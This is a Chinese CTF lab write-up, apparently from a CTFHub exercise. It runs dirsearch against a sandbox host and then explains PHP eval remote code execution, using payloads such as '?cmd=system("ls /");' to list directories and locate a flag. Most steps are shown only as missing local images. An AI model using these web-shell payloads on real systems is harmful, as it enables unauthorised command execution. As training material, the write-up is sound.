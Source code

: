 python3 dirsearch.py -u http://challenge-272895e9841d1de7.sandbox.ctfhub.com:10800/ -e *

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220615183139132.png" alt="image-20220615183139132" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220615183340439.png" alt="image-20220615183340439" style="zoom:80%;" />

将ec1e3771593f5933aa7ecb2c6009c84e.txt输入网址

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220615183623149.png" alt="image-20220615183623149" style="zoom:80%;" />

## *RCE

### **eval执行

eval()函数中的eval是evaluate的简称，这个函数的作用就是把一段[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)当作PHP语句来执行。

比如说`eval($_REQUEST["cmd"])`

```
$_REQUEST[]是接收数据用的,而其中的cmd 就是其中的数据
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113322009.png" alt="image-20220616113322009" style="zoom:80%;" />

[cmd](https://so.csdn.net/so/search?q=cmd&spm=1001.2101.3001.7020)是其中的参数，我们就把命令赋给cmd,我们先显示一下网页的根目录

```ruby
?cmd=system("ls");
```

![image-20220616113636012](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113636012.png)

接着我们看上一级目录

```
?cmd=system("ls /");
```

![image-20220616113727956](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113727956.png)

发现flag_28171，我们cat它

![image-20220616113909439](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113909439.png)













